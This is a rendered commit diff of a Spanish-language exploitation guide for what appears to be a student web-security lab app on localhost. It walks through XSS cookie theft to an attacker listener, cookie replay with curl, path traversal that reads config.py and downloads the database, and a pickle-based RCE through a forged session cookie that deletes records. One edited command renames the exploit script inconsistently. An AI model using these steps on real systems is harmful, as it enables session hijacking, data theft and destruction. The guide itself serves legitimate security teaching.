

Before and after one commit to rami-nava/TP-SEG-WEB-2026, a Markdown page: INSTRUCTIVO_VULNERABILIDADES.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Actualizacion de instructivo de uso

````diff
--- a/INSTRUCTIVO_VULNERABILIDADES.md
+++ b/INSTRUCTIVO_VULNERABILIDADES.md
@@ -45,13 +45,21 @@
   se reutiliza (replay) para entrar como admin sin su contrasena.
 - **Donde esta:** ejecución de código XSS en `/admin/licitacion/<id>`.
 - **Como explotarla:**
-  1. Montar el listener del atacante (terminal aparte): python3 -m http.server 8000.
+  1. Montar el listener del atacante (terminal aparte):
+     `python3 exploits/receptor_cookie.py`.
+     > Este receptor **decodifica** la cookie automaticamente (los `%3D%3D`
+     > vuelven a ser `==`) y te imprime el valor listo para el replay. Si en
+     > cambio usas `python3 -m http.server 8000`, el log muestra la cookie
+     > **URL-encoded** y tenes que revertir a mano `%3D%3D` → `==`,
+     > `%2B` → `+`, `%2F` → `/` antes de reutilizarla.
   2. Con el XSS del paso 1 ya cargado, iniciar sesion como `admin` / `admin123`
      y abrir la licitacion afectada (`/admin/licitacion/<id>`).
-  3. La cookie del admin aparece en el listener (parametro `?c=`).
-     - **Atencion:**
-          - Inicio de cookie: Luego de **3D**
-          - Reemplazar: %3D%3D por **==**
+  3. La cookie del admin aparece en el listener. Con `receptor_cookie.py` veras:
+     ```
+     [COOKIE ROBADA] (p/ replay) => gASV...lHViLg==.5df0...896
+     ```
+     Esa segunda linea ya viene decodificada y sin el prefijo `sesion=`,
+     lista para pegar.
   4. **Replay** de la cookie robada:
      - **curl:** `curl -b "sesion=<VALOR_ROBADO>" http://127.0.0.1:5000/admin`
      - **DevTools:** Application → Cookies → `http://127.0.0.1:5000` → editar la
@@ -72,8 +80,15 @@
      `http://127.0.0.1:5000/admin/descargar?file=reporte_ejemplo.csv`
   2. Escapar hacia el archivo de configuracion:
      `http://127.0.0.1:5000/admin/descargar?file=../config.py`
-- **Resultado esperado:** se obtiene `config.py`, incluida la
-  `SECRET_KEY = b"clave-super-secreta-ficticio-sa-2026"` y la ruta de la BD.
+  3. Obtener el **esquema de la BD** para el paso 4 (nombres de tablas/columnas),
+     leyendo el codigo o la base: `?file=../app.py` o `?file=../database.db`.
+     Si exfiltras la base, inspeccionala con el script incluido:
+     - `curl -b "sesion=<COOKIE_ADMIN>" "http://127.0.0.1:5000/admin/descargar?file=../database.db" -o exploits/database_robada.db`
+     - `python3 exploits/leer_db.py exploits/database_robada.db --schema`
+- **Resultado esperado:** se obtiene `config.py` (incluida la
+  `SECRET_KEY = b"clave-super-secreta-ficticio-sa-2026"` y la ruta de la BD) y el
+  **esquema de la base**. No se adivina nada: los nombres reales de `usuarios`,
+  `propuestas`, `licitaciones` y sus columnas salen del propio paso 3.
 
 ---
 
@@ -86,12 +101,15 @@
 - **Donde esta:** `session_utils.py` (`pickle.loads(data)`), invocado por
   `app.py` en cada request a traves de `usuario_actual()`.
 - **Como explotarla:**
+  > Los nombres de tablas y columnas que usa el payload (`usuarios`, `propuestas`,
+  > `licitaciones`, `monto`, `estado`, etc.) **no se adivinan**: se conocen por el
+  > esquema filtrado en el paso 3 (`../app.py` / `../database.db`).
   1. Editar `exploits/4_forjar_cookie_rce.py`:
      - `USERNAME = "atacante"`  (el username propio; el exploit resuelve su ID en la BD).
      - `SECRET_KEY = b"clave-super-secreta-ficticio-sa-2026"` (la obtenida en el paso 3).
   2. Generar y enviar la cookie forjada al servidor en ejecucion:
      - Generar: python3 exploits/4_forjar_cookie_rce.py
-     - Generar y enviar: python3 exploits/4_forjar_cookie_rce.py --enviar
+     - Generar y enviar: python3 exploits/forjar_cookie_rce.py --enviar
 - **Resultado esperado:**
   - El payload resuelve el **ID** del usuario a partir del `USERNAME` y, en cada
     licitacion **abierta** donde ese usuario tiene propuesta, **borra** de la tabla
````
